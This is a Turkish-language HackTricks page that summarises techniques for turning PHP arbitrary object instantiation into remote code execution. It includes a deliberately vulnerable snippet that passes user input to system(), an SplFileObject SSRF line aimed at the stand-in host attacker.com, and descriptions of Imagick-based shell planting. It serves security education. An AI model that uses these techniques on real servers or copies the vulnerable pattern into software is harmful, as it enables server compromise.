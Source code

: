 # PHP - RCE nesne oluşturma istismar: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

Bu, [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) adresinin temel bir özetidir.

## Giriş

`new $_GET["a"]($_GET["a"])` gibi yeni keyfi nesnelerin oluşturulması, [**yazıda**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) detaylandırıldığı gibi Uzaktan Kod Yürütme (RCE) ile sonuçlanabilir. Bu belge, RCE elde etmenin çeşitli stratejilerini vurgulamaktadır.

## Özel Sınıflar veya Otomatik Yükleme ile RCE

`new $a($b)` sözdizimi, **`$a`** sınıf adını ve **`$b`** yapıcıya geçirilen ilk argümanı temsil eden bir nesne oluşturmak için kullanılır. Bu değişkenler, GET/POST gibi kullanıcı girdilerinden, string veya dizi olarak veya JSON'dan, diğer türler olarak elde edilebilir.

Aşağıdaki kod parçasını düşünün:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Bu durumda, `$a`'yı `App` veya `App2` olarak ve `$b`'yi bir sistem komutu (örneğin, `uname -a`) olarak ayarlamak, o komutun çalıştırılmasına neden olur.

**Otomatik yükleme fonksiyonları**, doğrudan erişilebilen böyle sınıflar yoksa istismar edilebilir. Bu fonksiyonlar, ihtiyaç duyulduğunda dosyalardan sınıfları otomatik olarak yükler ve `spl_autoload_register` veya `__autoload` kullanılarak tanımlanır:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Autoloading'in davranışı PHP sürümlerine göre değişiklik gösterir ve farklı RCE olasılıkları sunar.

## Yerleşik Sınıflar ile RCE

Özel sınıflar veya autoloader'lar eksik olduğunda, **yerleşik PHP sınıfları** RCE için yeterli olabilir. Bu sınıfların sayısı PHP sürümüne ve uzantılara bağlı olarak 100 ile 200 arasında değişir. `get_declared_classes()` kullanılarak listelenebilirler.

İlgili yapıcılar, aşağıdaki örnekte ve [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) bağlantısında gösterildiği gibi, yansıma API'si aracılığıyla tanımlanabilir.

**Belirli yöntemler aracılığıyla RCE şunları içerir:**

### **SSRF + Phar Deserialization**

`SplFileObject` sınıfı, yapıcısı aracılığıyla SSRF'yi etkinleştirir ve herhangi bir URL'ye bağlantılara izin verir:
```php
new SplFileObject('http://attacker.com/');
```
SSRF, Phar protokolünü kullanan PHP'nin 8.0'dan önceki sürümlerinde deserialization saldırılarına yol açabilir.

### **PDO'ları Sömürmek**

PDO sınıfı yapıcı fonksiyonu, DSN dizeleri aracılığıyla veritabanlarına bağlantılara izin verir, bu da dosya oluşturma veya diğer etkileşimleri mümkün kılabilir:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP'nin 5.3.22 ve 5.4.12 sürümleri, libxml2 sürümüne bağlı olarak `SoapClient` ve `SimpleXMLElement` yapıcıları aracılığıyla XXE saldırılarına karşı savunmasızdı.

## RCE via Imagick Extension

**Projenin bağımlılıkları** analizi sırasında, **Imagick**'in yeni nesne örnekleri oluşturarak **komut yürütme** için kullanılabileceği keşfedildi. Bu, güvenlik açıklarından yararlanma fırsatı sunar.

### VID parser

Dosya sisteminde belirtilen herhangi bir yola içerik yazma yeteneğine sahip VID parser'ın varlığı tespit edildi. Bu, web erişilebilir bir dizine bir PHP shell yerleştirilmesine yol açabilir ve Uzak Kod Yürütme (RCE) sağlanabilir.

#### VID Parser + Dosya Yükleme

PHP'nin yüklenen dosyaları geçici olarak `/tmp/phpXXXXXX` dizininde sakladığı belirtilmiştir. Imagick'teki VID parser, **msl** protokolünü kullanarak dosya yollarında joker karakterleri işleyebilir ve geçici dosyayı seçilen bir konuma taşıyabilir. Bu yöntem, dosya sisteminde keyfi dosya yazma elde etmek için ek bir yaklaşım sunar.

### PHP Çökmesi + Kaba Kuvvet

[**orijinal yazımda**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) tanımlanan bir yöntem, silinmeden önce bir sunucu çökmesine neden olan dosyaların yüklenmesini içerir. Geçici dosyanın adını kaba kuvvetle tahmin ederek, Imagick'in keyfi PHP kodu yürütmesi mümkün hale gelir. Ancak, bu tekniğin yalnızca eski bir ImageMagick sürümünde etkili olduğu bulunmuştur.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
